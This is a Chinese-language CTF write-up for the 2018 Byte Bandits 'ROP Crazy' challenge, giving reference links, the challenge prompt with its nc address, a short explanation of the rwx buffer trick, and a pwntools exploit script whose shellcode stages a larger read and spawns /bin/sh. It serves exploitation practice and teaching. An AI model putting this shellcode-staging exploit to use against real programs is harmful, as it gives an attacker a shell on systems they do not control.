



# Reference

[//]: <> (文章所涉及到的技术点、WriteUp的链接)

* https://github.com/phieulang1993/ctf-writeups/blob/master/2018/bytebandit/ROP_Crazy/ropcrazy.py
* https://github.com/st424204/ctf_practice/blob/master/Byte_Bandits_CTF/rop_crazy/gg.py
* http://www.wooy0ung.me/writeup/2018/04/10/bytebanditsctf-2018-writeup/

# Title

[//]: <> (题目)

Can you randomly ROP out your way?

nc 34.218.199.37 5000

# Content

[//]: <> (WriteUp内容)

程序开辟了0x1000的rwx内存空间



并将首地址被打印出来了



再读8 byte，明显不够放入shellcode，做rop修改读入长度为0xff byte



```python
from pwn import *

context.arch = "amd64"

s = process("./gg")
elf = ELF("./gg")

sh_addr = int(s.recvline(),16)

s.recv(0x1000)

s.send(p64(sh_addr))

p = asm("""
xor rdx,rdx
mov dl,0xff
syscall
nop
""")

s.send(p)

p = "\x90"*0xc8
p += asm("""
xor rdx,rdx
mov dl,0xff
syscall
nop
mov rbx,0x0068732f6e69622f
push rbx
push rsp
pop rdi
xor rsi,rsi
push rsi
pop rdx
push rdx
pop rax
mov al,0x3b
syscall
mov al,0x3c
xor rdi,rdi
syscall
""")

s.send(p)
s.interactive()
```